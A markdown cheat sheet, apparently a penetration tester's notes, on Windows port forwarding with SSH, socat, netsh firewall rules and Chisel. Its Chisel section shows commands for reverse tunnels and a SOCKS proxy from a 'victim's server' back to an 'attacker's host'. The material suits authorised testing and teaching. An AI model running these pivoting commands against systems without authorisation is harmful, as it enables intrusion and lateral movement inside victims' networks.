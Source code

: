 ```yaml
---
title: Windows port forwarding
---
```


- [1. Port forwarding via SSH](#1-port-forwarding-via-ssh)
  - [1.1. Remote port forwarding](#11-remote-port-forwarding)
  - [1.2. Local port forwarding](#12-local-port-forwarding)
- [2. Port forwarding with Socat](#2-port-forwarding-with-socat)
- [3. Chisel tool](#3-chisel-tool)
  - [3.1. Reverse port-forwarding](#31-reverse-port-forwarding)
  - [3.2. Reverse port-forwarding using SOCKS proxy](#32-reverse-port-forwarding-using-socks-proxy)

## 1. Port forwarding via SSH
SSH can be used to perform tunneling. Nowadays Windows is distrubuted with the OpenSSH client included by default.

### 1.1. Remote port forwarding

```plaintext
   IP1                  IP2 (pivot)           IP3
|'''''''|            |'''''''|             |'''''''|
| port1 | ---------> |  SSH  | ----------> | port3 | 
|,,,,,,,|            |,,,,,,,|             |,,,,,,,|
```

```powershell
ssh <user1>@<ip1> -R <port1>:<ip3>:<port3> -N
```

Now the `ip3:port3` is available from ip1 on `user1@localhost:port1`. Port numbers don't need to match. Local port `localhost:9999` can be forwarded to the remote RDP `1.1.1.1:3389` service.

### 1.2. Local port forwarding

```plaintext
   IP1                 IP2 (pivot)            IP3
|'''''''|            |'''''''|             |'''''''|
| port1 | <--------- | port2 | <---------- |,,,,,,,| 
|,,,,,,,|            |  SSH  |             
                     |,,,,,,,|
```

```powershell
ssh <user1>@<ip1> -L *:<port1>:127.0.0.1:<port2>
```

Now the `ip1:port1` is available from `ip3` via `ip2:port2`. In other words, `ip2:port2` points to `ip1:port1`.

## 2. Port forwarding with Socat
Socat allows to forward ports in a simpler way than SSH but it have to be transfered to the pivot host.

```plaintext
   IP1              IP2 (pivot)               IP3
|'''''''|            |'''''''|             |'''''''|
|,,,,,,,| ---------> | port2 | ----------> | port3 | 
                     |  SSH  |             |,,,,,,,|
                     |,,,,,,,|
```

Socat performs some kind of a reversed _local port forwarding_. It opens local (IP2 pivot) port. It's easier than connecting to the IP1 directly but it might require to create a firewall rule to allow any connections to the opened port.

```powershell
socat TCP4-LISTEN:<port2>,fork TCP4:<ip3>:<port3>
```

Now the `ip3:port3` is available via `ip2:port2`. To open the pivot's port:

```powershell
netsh advfirewall firewall add rule name="Open Port <port2>" dir=in action=allow protocol=TCP localport=<port2>
```

## 3. Chisel tool
[Chisel](https://github.com/jpillora/chisel) is a swiss-knife tool (Linux and Windows) for any kind of a port forwarding.

### 3.1. Reverse port-forwarding
It makes connection from the server to the attacker host.

```bash
# 1. Run on attacker's host
chisel server --reverse --port 9001

# 2. Run on victim's server (forward :local-port to :open-port)
chisel client <attacker-ip>:9001 R:<open-port>:127.0.0.1:<local-port>

# 3. Now open in browser: http://localhost:<open-port>
```

### 3.2. Reverse port-forwarding using SOCKS proxy
It is useful if we want to access many ports on the victim's machine.

```bash
# 1. Run on attacker's host
chisel server --reverse --port 9001

# 2. Run on victim's server (forward socks to :open-port)
chisel client 10.0.0.1:9001 R:<open-port>:socks

# 3. Add following line in /etc/proxychains4.conf
socks5 127.0.0.1 <open-port>
```

Now you can use `proxychains` before every command to tunnel the requests to the victim's server. There is also configuration in the `Burp Suite` for that purpose.
